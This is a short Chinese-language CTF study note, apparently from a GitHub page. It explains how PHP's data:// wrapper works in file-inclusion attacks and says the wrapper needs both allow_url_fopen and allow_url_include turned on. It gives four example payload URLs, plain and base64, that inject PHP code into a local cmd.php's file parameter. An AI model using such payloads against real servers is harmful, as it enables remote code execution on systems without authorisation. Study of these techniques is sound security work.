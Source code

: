 ### data://协议

经过测试官方文档上存在一处问题，经过测试PHP版本5.2，5.3，5.5，7.0；data:// 协议是是受限于allow_url_fopen的，官方文档上给出的是NO，所以要使用data://协议需要满足双on条件

```
PHP.ini：
data://协议必须双在on才能正常使用；
allow_url_fopen ：on
allow_url_include：on
```

参考自：http://php.net/manual/zh/wrappers.data.php, 官方文档上allow_url_fopen应为yes。

![](images/ctf-2021-06-18-18-20-07.png)

测试现象：

http://127.0.0.1/cmd.php?file=data://text/plain,<?php phpinfo()?>

or

http://127.0.0.1/cmd.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

也可以：

http://127.0.0.1/cmd.php?file=data:text/plain,<?php phpinfo()?>

or

http://127.0.0.1/cmd.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

![](images/ctf-2021-06-18-18-21-59.png)
